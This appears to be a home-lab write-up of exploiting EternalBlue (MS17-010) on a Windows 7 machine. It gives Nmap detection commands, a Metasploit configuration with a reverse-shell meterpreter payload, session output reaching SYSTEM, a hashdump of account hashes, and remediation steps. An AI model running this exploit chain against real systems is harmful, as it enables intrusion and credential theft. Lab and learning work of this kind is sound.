

# 03 — EternalBlue SMBv1 RCE (CVE-2017-0144 / MS17-010)

## Overview

| Field | Details |
|---|---|
| **Vulnerability** | EternalBlue — SMBv1 Remote Code Execution |
| **CVE** | CVE-2017-0144 (MS17-010 advisory) |
| **CVSS Score** | 9.3 — Critical |
| **Affected OS** | Windows 7 Ultimate SP1 x64 — YASH-PC |
| **Service** | SMB — Port 445/TCP |
| **Access Gained** | NT AUTHORITY\SYSTEM |
| **Post-Exploit** | hashdump — all 4 account hashes retrieved |
| **Target IP** | 192.168.1.10 |
| **Attacker IP** | 192.168.1.11 (Kali Linux) |
| **Date** | July 16, 2026 |

---

## Vulnerability Summary

EternalBlue exploits a buffer overflow in Windows SMBv1 protocol handling.
Originally developed by the NSA and leaked by Shadow Brokers in 2017, it
became the attack vector behind WannaCry ransomware. Sending a crafted
Trans2 request overflows a kernel buffer and executes arbitrary code as
NT AUTHORITY\SYSTEM — no authentication required.

---

## Steps

### 1. Confirm Vulnerability with Nmap

```bash
nmap -p 445 --script smb-vuln-ms17-010 192.168.1.10
```

Result: `State: VULNERABLE — CVE-2017-0143`

### 2. Full Service Scan

```bash
nmap -sV -sC -p 445 -oN scan_windows_ms17010.txt 192.168.1.10
```


Key findings:
- OS: Windows 7 Ultimate 7601 Service Pack 1
- Hostname: YASH-PC
- SMB message signing: **disabled** (dangerous, but default)

---

### 3. Metasploit Configuration

```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.10
set LHOST  192.168.1.11
set PAYLOAD windows/x64/meterpreter/reverse_tcp
run
```



---

### 4. Exploit Execution + Post-Exploitation

```
[+] ETERNALBLUE overwrite completed successfully (0xC000000D)
[*] Meterpreter session 1 opened

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

meterpreter > hashdump
Administrator:500:...:31d6cfe0d16ae931b73c59d7e0c089c0:::
Yash:1001:...:209c6174da490caeb422f3fa5a7ae634:::
```


---

## Full Report

[View PDF Report](./report.pdf)

---

## Remediation

1. **Apply MS17-010 patch** (KB4012212) immediately
2. **Disable SMBv1** — `Set-SmbServerConfiguration -EnableSMB1Protocol $false`
3. **Block port 445** from untrusted networks at the firewall
4. **Set strong passwords** — Administrator had no password (empty hash)
5. **Upgrade from Windows 7** — EOL since January 2020, no further patches
6. **Network segmentation** — prevent SMB lateral movement between workstations

---

## What I Learned

- Nmap NSE scripting (`smb-vuln-ms17-010`) for targeted vulnerability detection
- EternalBlue exploit mechanics — kernel pool grooming, SMBv1 overflow, staged payload
- Meterpreter x64/windows session handling on Windows targets
- Windows SAM database credential harvesting via `hashdump`
- NTLM hash structure — LM:NTLM format, Pass-the-Hash attack concept
- Real-world context — WannaCry, NSA tooling, responsible disclosure

---

[← Back to Lab Home](../README.md)